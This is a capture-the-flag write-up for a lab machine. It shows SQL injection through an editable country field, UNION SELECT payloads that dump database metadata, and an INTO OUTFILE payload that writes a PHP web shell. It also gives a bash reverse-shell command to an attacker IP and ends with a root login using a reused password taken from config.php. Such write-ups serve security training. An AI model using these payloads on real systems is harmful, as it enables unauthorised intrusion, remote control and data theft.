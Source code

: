 ![image](https://user-images.githubusercontent.com/105310322/193155470-12db0028-07ed-47e0-ae63-5ffcbfab9cf6.png)


### Tools: Burpsuite

### Vulnerabilities: SQLI: Union Select OutFile, Password Reuse

```console
└─$ nmap -A -p- -T4 -Pn 10.129.95.235
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-29 14:11 CDT
Nmap scan report for 10.129.95.235
Host is up (0.060s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.13 seconds
```

Port 80 brings us to a webpage with a single input for a username, but all it does is register usernames. However every different username you pick will be given a hashed cookie. This is important for later.

![image](https://user-images.githubusercontent.com/105310322/193152387-708a3710-a7d5-49b3-a9f7-965c22da07a8.png)

Since there wasnt anything else to discover I opened burp suite and found something interesting. The country field can be edited in burp but not on the webpage. This country field turned out to be vulnerable to SQLI(After trying lots of things)

```
POST / HTTP/1.1
Host: 10.129.95.235
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://10.129.95.235
DNT: 1
Connection: close
Referer: http://10.129.95.235/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=asd&country=Brazil
```
We can confrim that it is vulnerable simply by putting a ' after the country name.

```Argentina'```

Doing so gives us an error 

Note: You will need a new cookie everytime you send a new command with the country. This is because it will keep loading your old cookies info.

```php
:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main}
```
Adding -- - will not give us an error ```Argentina'-- -``` So lets test out Union Select :)

Note: The following process for burpsuite will be as follows.

![image](https://user-images.githubusercontent.com/105310322/193153575-ff6301b9-7150-4305-8bcc-adb5cd3660bb.png)


1. Input your command after the country ```Argentina' union select null-- -```
2. Change your username Ex. keep adding letters for every new name, this will give a new cookie.
3. Click send
4. Copy the cookie in the RESPONSE panel of burp
5. Paste over your REQUEST cookie in burp
6. Click send
7. Click follow redirect
8. You should get some output or an error

So Next I followed hacktricks for some easy union select commands

https://book.hacktricks.xyz/pentesting-web/sql-injection

Doing so I was able to leak the databases.


```Argentina' UniOn Select gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata-- -```

```php
<div class="container">
		<h1 class="text-center m-5">Join the UHC - September Qualifiers</h1>
		
	</div>
	<section class="bg-dark text-center p-5 mt-4">
		<div class="container p-5">
            <h1 class="text-white">Welcome asdfqaaaaababaaaaa</h1><h3 class="text-white">Other Players In Argentina'UNION SELECT gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata-- -</h3><li class='text-white'>asdf</li><li class='text-white'>|information_schema|,|performance_schema|,|mysql|,|registration|</li>		</div>
```

Then I leaked the tables.


```Argentina' UniOn Select gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables-- -```

```
|ALL_PLUGINS|,|APPLICABLE_ROLES|,|CHARACTER_SETS|,|CHECK_CONSTRAINTS|,|COLLATIONS|,|COLLATION_CHARACTER_SET_APPLICABILITY|,|COLUMNS|,|COLUMN_PRIVILEGES|,|ENABLED_ROLES|,|ENGINES|,|EVENTS|,|FILES|,|GLOBAL_STATUS|,|GLOBAL_VARIABLES|,|KEY_CACHES|,|KEY_COLUMN_USAGE|,|OPTIMIZER_TRACE|,|PARAMETERS|,|PARTITIONS|,|PLUGINS|,|PROCESSLIST|,|PROFILING|,|REFERENTIAL_CONSTRAINTS|,|ROUTINES|,|SCHEMATA|,|SCHEMA_PRIVILEGES|,|SESSION_STATUS|,|SESSION_VARIABLES|,|STATISTICS|,|SYSTEM_VARIABLES|,|TABLES|,|TABLESPACES|,|TABLE_CONSTRAINTS|,|TABLE_PRIVILEGES|,|TRIGGERS|,|USER_PRIVILEGES|,|VIEWS|,|CLIENT_STATISTICS|,|INDEX_STATISTICS|,|INNODB_SYS_DATAFILES|,|GEOMETRY_COLUMNS|,|INNODB_SYS_TABLESTATS|,|SPATIAL_REF_SYS|,|INNODB_BUFFER_PAGE|,|INNODB_TRX|,|INNODB_CMP_PER_INDEX|,|INNODB_METRICS|,|INNODB_LOCK_WAITS|,|INNODB_CMP|,|THREAD_POOL_WAITS|,|INNODB_CMP_RESET|,|THREAD_POOL_QUEUES|,|TABLE_STATISTICS|,|INNODB_SYS_FIELDS|,|INNODB_BUFFER_PAGE_LRU|,|INNODB_LOCKS|,|INNODB_FT_INDEX_TABLE|,|INNODB_CMPMEM|,|THREAD_POOL_GROUPS|,|INNODB_CMP_PER_INDEX_RESET|,|INNODB_SYS_FOREIGN_COLS|,|INNODB_FT_INDEX_CACHE|,|INNODB_BUFFER_POOL_STATS|,|INNODB_FT_BEING_DELETED|,|INNODB_SYS_FOREIGN|,|INNODB_CMPMEM_RESET|,|INNODB_FT_DEFAULT_STOPWORD|,|INNODB_SYS_TABLES|,|INNODB_SYS_COLUMNS|,|INNODB_FT_CONFIG|,|USER_STATISTICS|,|INNODB_SYS_TABLESPACES|,|INNODB_SYS_VIRTUAL|,|INNODB_SYS_INDEXES|,|INNODB_SYS_SEMAPHORE_WAITS|,|INNODB_MUTEXES|,|user_variables|,|INNODB_TABLESPACES_ENCRYPTION|,|INNODB_FT_DELETED|,|THREAD_POOL_STATS|,|accounts|,|cond_instances|,|events_stages_current|,|events_stages_history|,|events_stages_history_long|,|events_stages_summary_by_account_by_event_name|,|events_stages_summary_by_host_by_event_name|,|events_stages_summary_by_thread_by_event_name|,|events_stages_summary_by_user_by_event_name|,|events_stages_summary_global_by_event_name|,|events_statements_current|,|events_statements_history|,|events_statements_history_long|,|events_statements_summary_by_account_by_event_name|,|events_statements_summary_by_digest|,|events_statements_summary_by_host_by_event_name|,|events_statements_summary_by_program|,|events_statements_summary_by_thread_by_event_name|,|events_statements_summary_by_user_by_event_name|,|events_statements_summary_global_by_event_name|,|events_transactions_current|,|events_transactions_history|,|events_transactions_history_long|,|events_transactions_summary_by_account_by_event_name|,|events_transactions_summary_by_host_by_event_name|,|events_transactions_summary_by_thread_by_event_name|,|events_transactions_summary_by_user_by_event_name|,|events_transactions_summary_global_by_event_name|,|events_waits_current|,|events_waits_history|,|events_waits_history_long|,|events_waits_summary_by_account_by_event_name|,|events_waits_summary_by_host_by_event_name|,|events_waits_summary_by_instance|,|events_waits_summary_by_thread_by_event_name|,|events_waits_summary_by_user_by_event_name|,|events_waits_summary_global_by_event_name|,|file_instances|,|file_summary_by_event_name|,|file_summary_by_instance|,|global_status|,|host_cache|,|hosts|,|memory_summary_by_account_by_event_name|,|memory_summary_by_host_by_event_name|,|memory_summary_by_thread_by_event_name|,|memory_summary_by_user_by_event_name|,|memory_summary_global_by_event_name|,|metadata_locks|,|mutex_instances|,|objects_summary_global_by_type|,|performance_timers|,|prepared_statements_instances|,|replication_applier_configuration|,|replication_applier_status|,|replication_applier_status_by_coordinator|,|replication_connection_configuration|,|rwlock_instances|,|session_account_connect_attrs|,|session_connect_attrs|,|session_status|,|setup_actors|,|setup_consumers|,|setup_instruments|,|setup_objects|,|setup_timers|,|socket_instances|,|socket_summary_by_event_name|,|socket_summary_by_instance|,|status_by_account|,|status_by_host|,|status_by_thread|,|status_by_user|,|table_handles|,|table_io_waits_summary_by_index_usage|,|table_io_waits_summary_by_table|,|table_lock_waits_summary_by_table|,|threads|,|user_variables_by_thread|,|users|,|user|,|transaction_registry|,|help_relation|,|roles_mapping|,|help_keyword|,|global_priv|,|event|,|func|,|db|,|time_zone|,|procs_priv|,|tables_priv|,|help_topic|,|time_zone_leap_second|,|innodb_index_stats|,|table_stats|,|plugin|,|proxies_priv|,|general_log|,|gtid_slave_pos|,|time_zone_transition|,|time_zone_name|,|time_zone_transition_type|,|proc|,|slow_log|,|innodb_table_stats|,|column_stats|,|help_category|,|columns_priv|,|index_stats|,|servers|,|registration|
```

Finally I leaked the columns(there was too much info so i only grabbed the interesting ones. Unfortuneately there was not anything special hiding and these columns were for the registration table and listed every username and their hashed cookie :(

```Argentina' UniOn Select gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns-- -```

```username|,|userhash```

So I was at a loss of where to go next but I learned that you can actually load files with SQLI!

So lets test that!

First I typed out my payload and sent it. We can confirm the file is uploaded by going to the webpage http://10.129.95.235/base.txt and it worked!

```Argentina' UniOn Select 'All your base belong to us!' into outfile '/var/www/html/base.txt'-- -```

A reverse shell was not a straight forward as I first thought so I vreated a webshell instead.

Note: Be sure to URL encode it as there are alot of special characters. However I was having issues we certain URL encoding but this site worked for me

https://www.urlencoder.org/

I encoded this command ```"<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';-- -```

Then placed it at the end of my union select.

```Argentina' union select %22%3C%3Fphp%20SYSTEM(%24_REQUEST%5B%27cmd%27%5D)%3B%20%3F%3E%22%20INTO%20OUTFILE%20%27%2Fvar%2Fwww%2Fhtml%2Fshell.php%27%3B--%20-```

After uploading and navigating to the page ```http://10.129.95.235/shell.php?cmd=``` I could input my commands and even cat the flag.

The more important thing was to get a reverse shell. So by running a simple bash reverse shell we can get it.

Remember to URL encode and set up your listener :)

```bash -c 'bash -i >& /dev/tcp/10.10.16.19/1234 0>&1'```

```http://10.129.95.235/shell.php?cmd=bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E16%2E19%2F1234%200%3E%261%27```

Boom we are in! At this point I was actually in a hurry and was hoping for some ssh keys or some sort of persistence.

```console
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.19] from (UNKNOWN) [10.129.95.235] 48078
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ 
```
I ended up finding a password for my user but it did not work for ssh.

```console
www-data@validation:/var/www/html$ cat config.php
cat config.php
```
```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```
```console
www-data@validation:/home/htb$ cat user.txt
cat user.txt
98ee980209494114bb05cad012282eda
```
However when I tried the root user it was an instant success!

```console
www-data@validation:/home/htb$ su root
su root
Password: uhc-9qual-global-pw
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
8e07f8181fa75bebe59c416e44296aca
```
Luckily in the end I did not need to rush and I got root very quickly.

Remember always try sudo -l and su root and keep it simple stupid.

GG!
